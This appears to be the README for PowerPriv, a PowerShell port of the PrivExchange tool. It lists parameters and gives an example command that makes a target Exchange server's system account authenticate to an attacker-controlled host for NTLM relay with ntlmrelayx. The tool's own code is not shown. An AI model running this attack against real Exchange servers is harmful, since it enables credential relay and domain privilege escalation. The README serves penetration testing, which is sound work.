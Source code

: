 # PowerPriv

### DESCRIPTION

A powershell implementation of PrivExchange by @_dirkjan (original code found here: https://github.com/dirkjanm/PrivExchange/blob/master/privexchange.py)
    Useful for environments on which you cannot run python-based applications, have user credentials, or do not want to drop files to disk.  Will cause the target exchange server system account to attempt to authenticate to a system of your choice.

#### `-targetHost`

Hostname or IP of the target exchange box.  Based on DNS config may require FQDN if using hostname. (Required)

#### `-attackerHost`

Hostname or IP of a system you control, and are ideally running ntlmrelayx on.  We are telling the Exchange server to attempt to authenticate to this system.  Based on DNS config may require FQDN if using hostname. (Required)

#### `-exchangePort`
Port to attempt to connect to Exchange server over. Default is 443.

#### `-attackerPort`

Port Exchange should attempt to connect back to the attacker over.  Default is 80

#### `-attackerPage`

Page we are telling the Exchange server to connect to on our attack system. Slashes are not required.  Default is powerPriv.

#### `-noSSL`

Set to true if you dont want to use https to connect initially to the Exchange server.  Default is false (use https).

#### `-Version`

Version of Exchange server we're targeting.  Default is 2013.
    
### EXAMPLE
    powerPriv -targetHost corpExch01 -attackerHost 192.168.1.17 -Version 2016
    
### NOTES
    Author: @g0ldenGunSec  - Based on the tool created by @_dirkjan
    Only use this tool on networks you own or have permission to test against.   
